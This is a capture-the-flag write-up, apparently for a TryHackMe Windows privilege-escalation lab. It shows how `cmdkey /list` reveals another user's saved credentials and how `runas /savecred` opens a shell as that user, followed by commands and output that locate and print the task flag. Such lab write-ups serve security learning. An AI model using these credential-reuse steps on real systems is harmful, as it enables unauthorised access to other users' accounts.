 ### Saved Windows Credentials
1. Started up this task's machine
2. `cmdkey /list` from the compromised Windows machine to display a list of all credentials that are currently saved on the local machine, which revealed another user's username
```PowerShell
C:\Users\thm-unpriv>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz
```

3. `runas /savedcred /user:<USER> <COMMAND>` from our compromised Windows machine to run a command and open up a terminal as the user that we just previously discovered using their credentials that are already stored on the local system
```PowerShell
C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
```
```PowerShell
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

4. `cd <ROOT DIRECTORY>` from the previously opened terminal on our compromised Windows machine to change to the machine's root directory 
```PowerShell
C:\Windows\system32>cd C:\
```

5. `dir /s <FILENAME>` from the previously opened terminal on our compromised Windows machine in order to recursively search through the machine's filesystem for the file containing this task's flag, which ended up finding and displaying its location onto our terminal
```PowerShell
C:\>dir /s flag.txt
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\mike.katz\Desktop

05/04/2022  05:17 AM                24 flag.txt
               1 File(s)             24 bytes

     Total Files Listed:
               1 File(s)             24 bytes
               0 Dir(s)  14,781,849,600 bytes free
```

6. `type <FILE PATH>` from the previously opened terminal on our compromised Windows machine to display this task's flag 
```PowerShell
C:\>type C:\Users\mike.katz\Desktop\flag.txt
THM{WHAT_IS_MY_PASSWORD}
```
